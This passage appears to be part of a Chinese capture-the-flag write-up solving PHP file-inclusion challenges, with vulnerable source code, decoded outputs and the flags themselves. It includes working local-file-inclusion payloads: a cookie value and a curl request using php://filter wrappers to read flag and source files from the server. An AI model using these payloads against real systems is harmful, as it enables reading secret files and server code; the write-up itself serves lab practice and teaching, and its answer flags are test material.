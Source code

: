 ```shell
<span style="color: #0000BB">&lt;?php<br /></span><span style="color: #007700">include(</span><span style="color: #DD0000">"flag.php"</span><span style="color: #007700">);<br /></span><span style="color: #0000BB">highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />if(isset(</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">"file1"</span><span style="color: #007700">])&nbsp;&amp;&amp;&nbsp;isset(</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">"file2"</span><span style="color: #007700">]))<br />{<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$file1&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">"file1"</span><span style="color: #007700">];<br />&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$file2&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">"file2"</span><span style="color: #007700">];<br />&nbsp;&nbsp;&nbsp;&nbsp;if(!empty(</span><span style="color: #0000BB">$file1</span><span style="color: #007700">)&nbsp;&amp;&amp;&nbsp;!empty(</span><span style="color: #0000BB">$file2</span><span style="color: #007700">))<br />&nbsp;&nbsp;&nbsp;&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if(</span><span style="color: #0000BB">file_get_contents</span><span style="color: #007700">(</span><span style="color: #0000BB">$file2</span><span style="color: #007700">)&nbsp;===&nbsp;</span><span style="color: #DD0000">"hello&nbsp;ctf"</span><span style="color: #007700">)<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;{<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;include(</span><span style="color: #0000BB">$file1</span><span style="color: #007700">);<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}<br />&nbsp;&nbsp;&nbsp;&nbsp;}<br />&nbsp;&nbsp;&nbsp;&nbsp;else<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;die(</span><span style="color: #DD0000">"NONONO"</span><span style="color: #007700">);<br />}</span>
</span>
</code>PD9waHAKZWNobyAiV1JPTkcgV0FZISI7Ci8vICRmbGFnID0gY3liZXJwZWFjZXs1NDdmYzQ5M2UzMjRmNjcwNTBkZTEwMDI2NjQ5ZmI4Nn0=

$ echo "PD9waHAKZWNobyAiV1JPTkcgV0FZISI7Ci8vICRmbGFnID0gY3liZXJwZWFjZXs1NDdmYzQ5M2UzMjRmNjcwNTBkZTEwMDI2NjQ5ZmI4Nn0=" | base64 -d
<?php
echo "WRONG WAY!";
// $flag = cyberpeace{547fc493e324f67050de10026649fb86}
```

flag: `cyberpeace{547fc493e324f67050de10026649fb86}`

### fileinclude

添加 cookie:

```
language=php://filter/read=convert.base64-encode/resource=/var/www/html/flag
```

flag: `cyberpeace{b00d522e6523361dd939401e7b1e2444}`

### file_include

```shell
$ curl "http://61.147.171.105:63732/?filename=php://filter/convert.iconv.UTF-8.UTF-7/resource=./flag.php"
<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br />highlight_file</span><span style="color: #007700">(</span><span style="color: #0000BB">__FILE__</span><span style="color: #007700">);<br />&nbsp;&nbsp;&nbsp;&nbsp;include(</span><span style="color: #DD0000">"./check.php"</span><span style="color: #007700">);<br />&nbsp;&nbsp;&nbsp;&nbsp;if(isset(</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">'filename'</span><span style="color: #007700">])){<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;</span><span style="color: #0000BB">$filename&nbsp;&nbsp;</span><span style="color: #007700">=&nbsp;</span><span style="color: #0000BB">$_GET</span><span style="color: #007700">[</span><span style="color: #DD0000">'filename'</span><span style="color: #007700">];<br />&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;include(</span><span style="color: #0000BB">$filename</span><span style="color: #007700">);<br />&nbsp;&nbsp;&nbsp;&nbsp;}<br /></span><span style="color: #0000BB">?&gt;<br /></span>
</span>
```